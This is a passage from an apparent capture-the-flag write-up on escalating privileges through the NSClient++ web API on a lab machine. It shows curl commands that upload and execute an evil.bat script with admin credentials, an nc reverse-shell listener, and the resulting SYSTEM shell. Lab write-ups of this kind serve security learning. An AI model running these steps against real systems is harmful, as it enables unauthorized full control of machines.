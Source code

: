 Configure the Scheduler to start the `command` at 5 second interval once the NSClient++ restarts. Now **Save the changes from the top **Changes** drop down and from the **Control** Dropdown menu select **Reload**. Now if you're lucky, you will get the reverse shell in 5 seconds. But I didn't get the reverse shell my listener was running. 

```
$ nc -lvnp 443
listening on [any] 443 ...

```

At this point, I choose to interact with the backend API instead of doing it through the browser. **Remember** we have `nc.exe` present on the server. But we not going to add `evil.bat` as a parameter for the External Script. I ran the following command from my Kali Machine.

```
$ curl -k -u admin:ew2x6SsGTxjRwXOT -X PUT https://127.0.0.1:8443/api/v1/scripts/ext/scripts/evil.bat --data-binary @evil.bat 
Added evil as scripts\evil.bat 
```

Now we have added our evil.bat in the script folder. Let's verify.
```
nadine@SERVMON C:\Program Files\NSClient++>cd scripts 

nadine@SERVMON C:\Program Files\NSClient++\scripts>dir 
 Volume in drive C has no label. 
 Volume Serial Number is 20C1-47A1
11/05/2017  11:11 PM             2,715 check_updates.vbs
02/28/2022  07:55 PM    <DIR>          custom
08/17/2024  09:56 PM                40 evil.bat
              17 File(s)         33,176 bytes
               6 Dir(s)   6,106,927,104 bytes free
```

Now we are again going to interact with the backed API and execute our `evil.bat` from here. Make sure you've Listener running using `nc -lvnp 443` on your kali.

```
$ curl -k -u admin:ew2x6SsGTxjRwXOT "https://127.0.0.1:8443/api/v1/queries/evil/commands/execute" 

```

As soon as you run the above command, you will notice that you got the Reverse Shell where the Listener was running.
```
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.184] 50534
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system

C:\Program Files\NSClient++>

```
